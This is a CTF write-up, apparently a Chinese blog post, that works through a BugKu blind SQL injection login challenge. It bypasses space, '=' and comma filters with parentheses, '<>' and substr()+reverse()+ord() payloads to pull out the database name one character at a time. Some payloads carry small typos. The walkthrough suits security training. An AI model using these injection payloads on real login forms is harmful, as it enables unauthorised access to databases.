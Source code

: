 ### substr()+reverse()+ord() 绕过逗号过滤

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/682ae2ae58cb8da5c8fbde5e.jpg)

尝试弱口令回显密码错误

![](https://pic1.imgdb.cn/item/682ae7e958cb8da5c8fbe1f0.jpg)

用户名是 admin，万能密码回显非法字符

![](https://pic1.imgdb.cn/item/682ae80458cb8da5c8fbe1f6.jpg)

fuzz 测试一波看看过滤了哪些

![](https://pic1.imgdb.cn/item/682ae81858cb8da5c8fbe1fc.jpg)

过滤了空格，可以使用 () 绕过

同时过滤了 =，但是我们可以用 <> 替换 !=

他俩都表示不等于，于是可以构造语句，先永假条件测试返回用户名不存在

```sql
hjakshdksjah'or(1<>1)#
```

![](https://pic1.imgdb.cn/item/682ae86658cb8da5c8fbe245.jpg)

再永真条件测试返回密码不存在

```sql
hjakshdksjah'or(1<>2)#
```

![](https://pic1.imgdb.cn/item/682ae94e58cb8da5c8fbe5a9.jpg)

首先是咱输入的用户名肯定是不存在的（键盘瞎按的）

如果 or 语句为假则用户名不存在，反之为真，由此可以先测试数据库长度

最后得到数据库长度为 8

```sql
hjakshdksjah'or(length(database()>0))#
```

![](https://pic1.imgdb.cn/item/682aea6e58cb8da5c8fbe897.jpg)

接下来需要爆破数据库名，但是它过滤了逗号

想到了字符串截取函数 `substr()` 不要逗号空格的用法

```sql
# from 后面的数字表示它从第几位开始取字符
substr('flag' from 1)		# 返回：flag
substr('flag' from 2)		# 返回：lag
```

可以构造下面 payload 拿到数据库名

```sql
substr((database())from(1))
```

但是 for 有截取长度限制，所以我们再套一个 `substr() + reverse()` 每次只截取一位

```sql
substr((reverse(substr('flag' form 1))) from 4 )		# 返回：f
substr((reverse(substr('flag' form 2))) from 3 )		# 返回：l
substr((reverse(substr('flag' form 3))) from 2 )		# 返回：a
substr((reverse(substr('flag' form 4))) from 1 )		# 返回：g
```

最后再利用之前 <> 配合 `ord()` 转 ASCII 码比较

```sql
asdadadadadas'or(ord(substr(reverse(substr((database())from(1)))from(8)))<>115)#
```

![](https://pic1.imgdb.cn/item/682af24b58cb8da5c8fc19be.jpg)